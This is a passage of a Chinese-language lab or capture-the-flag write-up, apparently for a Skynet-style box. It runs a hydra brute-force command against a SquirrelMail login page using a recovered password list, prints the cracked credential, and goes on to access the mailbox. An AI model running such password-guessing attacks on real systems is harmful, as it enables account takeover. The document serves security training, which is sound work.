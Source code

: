 log1.txt疑似为一个密码本



<section style="margin: 10px auto; display: flex; justify-content: center;"><section style="display: flex;align-items: center;"><section style="flex-shrink: 0;padding: 0 5px;box-sizing:border-box;"><section style=";transform: rotate(5deg);-webkit-transform: rotate(5deg);-moz-transform: rotate(5deg);-o-transform: rotate(5deg);"><section style="font-size: 16px;letter-spacing: 1.5px;color: #ffffff;background-color: #5790ff;padding: 3px 7px;box-sizing:border-box;"><strong>0</strong><strong>2</strong></section><section style="width: 100%;margin-top: -1px;box-sizing:border-box;max-width:100% !important;"><svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 65.46 13.32" style="display: block;" xml:space="default"><g id="图层_2" data-name="图层 2"><g id="图层_1-2" data-name="图层 1"><polygon points="0.01 0 0 11.44 13.26 3.65 17.13 10.34 32.66 4.58 38.19 10.29 49.44 4.8 65.47 13.32 65.39 0 0.01 0" style="fill:#5790ff;fill-rule:evenodd"></polygon></g></g></svg></section></section></section><section><section style="font-size: 16px;color: #333333;text-align: center;padding: 0 5px;box-sizing:border-box;"><strong> 漏洞利用</strong></section><section style="width: 100%;height: 10px;background-color: #d3feff;margin-top: -9px;box-sizing:border-box;max-width:100% !important;"></section></section></section></section>



<section style="margin: 10px auto; display: flex; align-items: center;"><section style="flex-shrink: 0;padding-right: 5px;box-sizing:border-box;"><section style="width: 127px;margin: 0 auto -35px;box-sizing:border-box;"><svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 209.35 75.07" style="display: block;" xml:space="default"><g id="图层_2" data-name="图层 2"><g id="图层_1-2" data-name="图层 1"><g><path d="M8.94,16.07l186.24-12,13.17,8-1.88,62H2.35Z" style="fill:#d3feff;fill-rule:evenodd"></path></g><g><path d="M8.35,27.07l-5,45h47" style="fill:none;stroke:#5790ff;stroke-width:6px"></path></g><g><path d="M145.35,7.07l49-4,12,8v43" style="fill:none;stroke:#5790ff;stroke-width:6px"></path></g></g></g></svg></section><section style="padding: 4px 15px;box-sizing:border-box;"><section style="font-size: 16px;color: #333333;text-align: center;"><strong>爆破密码</strong></section></section></section><section style="width: 100%;box-sizing:border-box;max-width:100% !important;"><svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 288.23 21.01" style="display: block;" xml:space="default"><g id="图层_2" data-name="图层 2"><g id="图层_1-2" data-name="图层 1"><path d="M0,4S134-7.91,122.76,12.19,85.27,3.87,140.29,3,217.72,37.43,288,10.14" style="fill:none;stroke:#31f2dc;stroke-dasharray:4,2"></path></g></g></svg></section><section style="flex-shrink: 0;"><section style="width: 60px;box-sizing:border-box;"><img style="width: 100%; display: block;vertical-align:baseline;box-sizing:border-box;max-width:100% !important;" src="https://bcn.135editor.com/files/images/editor_styles/1793583331ff61201539b5d8fb5c2a71.gif" data-ratio="0.7322987390882638"></section></section></section>



尝试爆破登录页面

```bash
└─# hydra -l milesdyson -P log1.txt 10.10.192.134 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-31 18:32:44
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 20 tasks per 1 server, overall 20 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.192.134:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect
[80][http-post-form] host: 10.10.192.134   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-31 18:33:06

```

登陆邮箱

![图片2](https://raw.githubusercontent.com/tac-eL/tacel.github.io/img/2024/7/12/2.png)

邮件中发现密码



<section style="margin: 10px auto; display: flex; align-items: center;"><section style="flex-shrink: 0;padding-right: 5px;box-sizing:border-box;"><section style="width: 127px;margin: 0 auto -35px;box-sizing:border-box;"><svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 209.35 75.07" style="display: block;" xml:space="default"><g id="图层_2" data-name="图层 2"><g id="图层_1-2" data-name="图层 1"><g><path d="M8.94,16.07l186.24-12,13.17,8-1.88,62H2.35Z" style="fill:#d3feff;fill-rule:evenodd"></path></g><g><path d="M8.35,27.07l-5,45h47" style="fill:none;stroke:#5790ff;stroke-width:6px"></path></g><g><path d="M145.35,7.07l49-4,12,8v43" style="fill:none;stroke:#5790ff;stroke-width:6px"></path></g></g></g></svg></section><section style="padding: 4px 15px;box-sizing:border-box;"><section style="font-size: 16px;color: #333333;text-align: center;"><strong>smb登录</strong></section></section></section><section style="width: 100%;box-sizing:border-box;max-width:100% !important;"><svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 288.23 21.01" style="display: block;" xml:space="default"><g id="图层_2" data-name="图层 2"><g id="图层_1-2" data-name="图层 1"><path d="M0,4S134-7.91,122.76,12.19,85.27,3.87,140.29,3,217.72,37.43,288,10.14" style="fill:none;stroke:#31f2dc;stroke-dasharray:4,2"></path></g></g></svg></section><section style="flex-shrink: 0;"><section style="width: 60px;box-sizing:border-box;"><img style="width: 100%; display: block;vertical-align:baseline;box-sizing:border-box;max-width:100% !important;" src="https://bcn.135editor.com/files/images/editor_styles/1793583331ff61201539b5d8fb5c2a71.gif" data-ratio="0.7322987390882638"></section></section></section>


